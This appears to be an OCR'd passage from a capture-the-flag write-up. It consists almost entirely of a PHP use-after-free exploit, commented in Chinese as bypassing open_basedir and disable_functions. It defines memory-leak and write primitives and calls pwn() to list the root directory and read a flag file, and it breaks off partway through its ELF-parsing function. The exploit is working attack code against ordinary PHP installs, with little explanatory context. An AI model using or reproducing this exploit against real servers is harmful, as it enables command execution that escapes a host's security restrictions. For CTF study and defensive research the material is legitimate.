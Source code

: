 ```php
    exit(0);
}
exit(0);
```

```php
#uaf 绕过open_basedir和disable_functions的限制
c=
pwn("ls /;cat /flag0.txt");
 
function pwn($cmd) {
    global $abc, $helper, $backtrace;
    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }
 
    class Helper {
        public $a, $b, $c, $d;
    }
 
    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }
 
    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf('%c',$ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }
 
    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf('%c',$v & 0xff);
            $v >>= 8;
        }
    }
 
    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }
 
    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);
```
